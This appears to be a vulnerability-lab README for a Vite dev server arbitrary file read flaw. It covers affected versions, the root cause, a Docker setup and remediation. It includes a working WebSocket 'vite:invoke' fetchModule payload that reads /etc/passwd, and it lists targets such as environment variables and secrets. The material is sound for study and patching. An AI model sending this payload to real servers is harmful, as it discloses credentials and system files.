




# Vite CVE-2026-39363 Arbitrary File Read

## Description

Vite is a modern frontend build tool. A file read vulnerability exists in the following versions:

    6.0.0 <= Vite < 6.4.2
    7.0.0 <= Vite < 7.3.2
    8.0.0 <= Vite < 8.0.5

When an attacker can access the Vite Dev Server WebSocket interface and the Origin check is missing or ineffective, the attacker can send a custom vite:invoke event to call the internal fetchModule method. By combining the file:// protocol with ?raw or ?inline, arbitrary local files can be returned as JavaScript module strings.

Example response:

    export default "file content..."

## Vulnerability Principle

Vite Dev Server enforces file system access control for HTTP requests, such as limiting accessible directories through server.fs.allow. However, the WebSocket fetchModule execution path does not apply the same restriction, which causes an access control bypass.

The fetchModule method can process file:// URLs. When used together with ?raw or ?inline, the target file content can be transformed into a JavaScript module export, allowing local file disclosure.

## Environment

Start the environment:

    docker compose up -d

Then visit:

    http://your-ip:5173

## Exploit

Use a proxy tool such as Yakit or Burp Suite to capture WebSocket traffic from the target page.

After visiting the page, a Vite HMR WebSocket connection will be established.

Send the following message to the WebSocket
connection:
    {
      "type": "custom",
      "event": "vite:invoke",
      "data": {
        "id": "invoke_1",
        "name": "fetchModule",
        "data": ["file:///etc/passwd?raw"]
      }
    }

If the target is vulnerable, the response will contain the content of /etc/passwd as a JavaScript module string.

## Impact

An attacker may read sensitive files on the server, such as:

- /etc/passwd
- /proc/self/environ
- Application source code
- Configuration files
- Environment variables or secrets

The risk is high when Vite Dev Server is exposed to the Internet or an untrusted network.

## Remediation

Upgrade Vite to a fixed version:

    Vite >= 6.4.2
    Vite >= 7.3.2
    Vite >= 8.0.5

Do not expose Vite Dev Server to the Internet. In development environments, bind it to 127.0.0.1 instead of using --host 0.0.0.0 whenever possible.
